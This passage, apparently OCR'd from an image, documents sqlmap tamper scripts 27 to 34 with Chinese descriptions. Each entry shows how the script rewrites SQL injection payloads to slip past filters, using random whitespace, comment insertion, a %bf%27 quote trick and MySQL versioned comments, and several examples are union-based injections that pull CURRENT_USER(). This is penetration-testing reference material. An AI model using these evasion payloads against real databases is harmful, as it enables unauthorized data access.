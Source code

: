 ```
MSSQL
MySQL

(27) space2mysqlblank.py 以随机空白字符替换空格
Example:
Input: SELECT id FROM users
Output: SELECT%0Bid%0BFROM%A0users
Requirement:
MySQL

(28) space2mysqldash.py 以单行注释和新行替换空格
Example:
Input: 1 AND 9227=9227
Output: 1--%0AAND--%0A9227=9227
Requirement:
MySQL
MSSQL

(29) space2plus.py 以”+”替换空格
Example:
Input: SELECT id FROM users
Output: SELECT+id+FROM+users

(30) space2randomblank.py 随机空白字符替换空格
Example:
Input: SELECT id FROM users
Output: SELECT\rid\tFROM\nusers

(31) unionalltounion.py 以”union all”替换”union”
Example:
Input: -1 UNION ALL SELECT
Output: -1 UNION SELECT

(32) unmagicquotes.py 以”%bf%27”替换单引号，并在结尾添加注释”--”
Example:
Input: 1' AND 1=1
Output: 1%bf%27 AND 1=1--%20

(33)versionedkeywords.py 对不是函数的关键字条件注释
Example:
Input: 1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))#
Output:  1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/,CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/*!AS*//*!CHAR*/),CHAR(32)),CHAR(58,100,114,117,58))#
Requirement:
MySQL


(34) versionedmorekeywords.py 对关键字条件注释
Example:
Input: 1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,122,114,115,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,115,114,121,58))#
Output: 1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/,/*!CONCAT*/(/*!CHAR*/(58,122,114,115,58),/*!IFNULL*/(CAST(/*!CURRENT_USER*/()/*!AS*//*!CHAR*/),/*!CHAR*/(32)),/*!CHAR*/(58,115,114,121,58))
```
